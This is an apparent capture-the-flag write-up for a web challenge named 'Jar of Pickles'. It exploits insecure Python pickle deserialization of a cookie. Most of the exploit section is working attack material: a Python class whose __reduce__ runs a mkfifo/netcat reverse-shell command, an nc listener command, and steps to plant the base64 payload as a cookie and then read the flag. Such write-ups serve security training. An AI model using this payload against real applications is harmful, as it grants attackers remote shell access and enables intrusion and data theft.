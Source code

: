 Name
----

Web: Exotic Attacks: Jar of Pickles

Description
-----------

Get the flag from: [url]141.85.224.101:8007/[/url].

Score: 100

Vulnerability
-------------

Unsafe usafe of Python3 pickle module.

Exploit
-------

Click on the picture, it will take you to 141.85.224.101:8007/jar. Notice the `pickled` cookie.
Use `nc -nvlk 1234` to open a connection to your machine first.
Run this program that prints the encoded pickled object of this class that spawns a shell (change the ip to yours).
```
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled).decode("utf-8"))
```

Take the output and set it as the Cookie value. Make the request again.
You should have a shell now, perform a `cat` on the flag file.
